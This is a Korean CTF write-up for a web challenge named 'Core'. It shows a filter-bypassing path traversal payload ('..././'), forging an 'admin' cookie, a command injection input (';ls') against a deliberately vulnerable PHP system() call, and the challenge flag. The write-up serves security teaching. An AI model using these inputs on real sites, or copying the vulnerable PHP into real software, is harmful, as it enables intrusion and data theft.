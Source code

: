 # Core

**Description:**
> 핵 실험은 진행 중... :(  
> (Core/Kernel/Nucleus/Hack)

## Write-up
![Main](img/001.png)
메인 페이지에 접근해보면 핵폭발 후 생기는 버섯구름처럼 보이는 것을 볼 수 있습니다.  
버섯구름 아래에 보면 초록색으로 되어있는 잡초를 볼 수 있고 눌러보면 php 파일이 다운로드 됩니다.

우선 다운로드 되는 경로를 살펴보면 다음과 같습니다.  
/download.php?file=hack  
/download.php?file=the  
/download.php?file=planet

실제로 다운로드 받은 파일을 보면 hack, the, planet와 같이 파일명을 입력하면 php 확장자를 붙여서 다운로드 됩니다.  
따라서 download.php 파일을 다운로드 받기 위해서는 다음과 같이 시도할 수 있습니다.  
/download.php?file=download  
/download.php?file=../download  
하지만, 두 경우 모두 Not Found로 파일을 다운로드 받을 수가 없습니다.

상대 경로로 상위 이동하여 파일을 다운로드 받는 부분이 정상적으로 동작하는지 알기 위해서 다음과 같이 시도하여 정상적으로 파일이 다운로드 되면 상위 경로로 올라가는 "../" 문자열이 필터링되어 있는 것을 추측할 수 있습니다.  
/download.php?file=../hack  
시도한 결과, hack.php 파일이 정상적으로 다운로드가 되었습니다.

이 부분을 우회하기 위해서 "../"를 이중으로 넣어서 우회할 수 있습니다.  
다음과 같이 시도해보면 download.php 파일이 정상적으로 다운로드 되는 것을 볼 수 있습니다.  
/download.php?file=..././download

download.php:  
```
<?php
    $file = isset($_GET['file']) ? $_GET['file'] : false;
    if($file) {
        if(@preg_match("/Core/i", $_GET['file'])) exit("Access Denied!");
        $_GET['file'] = str_replace("../", "", $_GET['file']);

        $split_path = @explode("/", $_GET['file']);
        $path = "";
        for($i=0;$i<count($split_path)-1;$i++) {
            $path .= $split_path[$i]."/";
        }
        $real_path = realpath('files/'.$path);
        if(strpos($real_path, "Core") === false) exit("Access Denied!");
        @$file_path = "files/".$_GET['file'].".php";

        $filesize = @filesize($file_path);
        $path_parts = @pathinfo($file_path);
        $filename = $path_parts['basename'];
        $extension = $path_parts['extension'];

        if(!$filesize) exit("Not Found");
        header("Pragma: public");
        header("Expires: 0");
        header("Content-Type: application/octet-stream");
        header("Content-Disposition: attachment; filename=\"$filename\"");
        header("Content-Transfer-Encoding: binary");
        header("Content-Length: $filesize");
        ob_clean();
        flush();
        readfile($file_path);
    } else {
        print("Access Denied!");
    }
?>
```

download.php 소스 코드를 보면 파일이 다운로드 되는 과정을 볼 수는 있지만 추가적인 정보를 얻기에는 부족합니다.  
다시 처음으로 돌아가서 메인 페이지의 소스 코드를 보면 다음과 같은 코드를 볼 수 있습니다.  
```
.hint:sublime { text-decoration: none; }
```

![Hint](img/002.png)
힌트는 Sublime Text로 메인 페이지의 소스를 Sublime Text로 보면 ADMIN이라는 문자열을 확인할 수 있고 admin으로 파일 다운로드를 시도하면 admin.php 파일을 획득할 수 있도록 마련한 장치입니다.  
/download.php?file=..././admin

admin.php:  
```
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <style type="text/css">
        body { background-color: #1d1d1d; color: #ffffff; padding: 90px; }
        a { text-decoration: none; color: #61646d; padding-left: 30px; }
        h1 { display: inline-block; color: #b20000;}
    </style>
    <title>ADMIN</title>
</head>
<body>
<?php
    @include 'config.php';

    print("<h1>Admin Page</h1>");
    print("<img src='files/worker.png'>"); 
    print("<br>Our website is still under construction. Sorry for the inconvenience...");
    @exec("ls files/",$list);

    $del = isset($_GET['del']) ? $_GET['del'] : false;
    if($del) {
        if(@preg_match("/\*/i", $_GET['del'])) exit("Access Denied!");
        if(@strlen($del) <= 3) {
            @system("rm -f files/$_GET[del]");
        }
    }
    print("<h2>Lists...</h2>");
    for($i=0;$i<count($list);$i++) {
        print("<a href='?del=$list[$i]' onclick='alert(\"Unimplemented :(\");'>[DEL]</a> $list[$i]<br>");
    }
?>
</body>
</html>
```

admin.php 파일을 보면 config.php 파일을 확인할 수 있고 동일한 방법으로 다운로드 받아서 파일을 확인할 수 있습니다.  
/download.php?file=..././config

config.php:  
```
<?php
    if($_COOKIE['admin'] != "true") exit("Access Denied!");
?>
```

두 파일의 정보를 바탕으로 'admin' 쿠키 값을 "true"로 설정하고 admin.php 파일에 접근하면 관리자 페이지에 접근할 수 있습니다.  
![AdminPage](img/003.png)

그리고 admin.php 파일을 보면 다음과 같이 GET 파라미터로 값을 전달 받아서 파일을 삭제하는 부분을 볼 수 있으나, 아직 개발이 완료되지 않아서 전체 삭제가 되지 않도록 "*" 기호는 필터링되어 있고 글자 길이도 3글자가 넘을 경우 실행되지 않도록 처리되어 있는 것을 볼 수 있습니다.  
```
    $del = isset($_GET['del']) ? $_GET['del'] : false;
    if($del) {
        if(@preg_match("/\*/i", $_GET['del'])) exit("Access Denied!");
        if(@strlen($del) <= 3) {
            @system("rm -f files/$_GET[del]");
        }
    }
```

보다 많은 정보를 얻기 위해서 이 부분을 우회하여 명령어가 실행되도록 아래와 같이 시도할 수 있습니다.  
/admin.php?del=;ls  
![AdminPage](img/004.png)

;ls를 입력하면 system("rm -f files/;ls");가 실행되기 때문에 현재 디렉터리의 파일 목록을 볼 수 있습니다.  
;는 명령어와 명령어 사이에 입력할 경우 두 명령어를 각각 실행할 수 있도록 구분지어 주는 역할을 해줍니다.  
따라서 ls가 실행된 결과를 보면 7h1s_is_f1a9.php 파일을 확인할 수 있습니다.

7h1s_is_f1a9.php 파일을 다운로드 받아서 확인해보면 flag를 획득할 수 있습니다.  
/download.php?file=..././7h1s_is_f1a9

7h1s_is_f1a9.php:  
```
<?php
    print("Access Denied!");
    # Flag is TDCTF{C0R3_H4CK_NUCL3U5}
?>
```

## Flag
TDCTF{C0R3_H4CK_NUCL3U5}
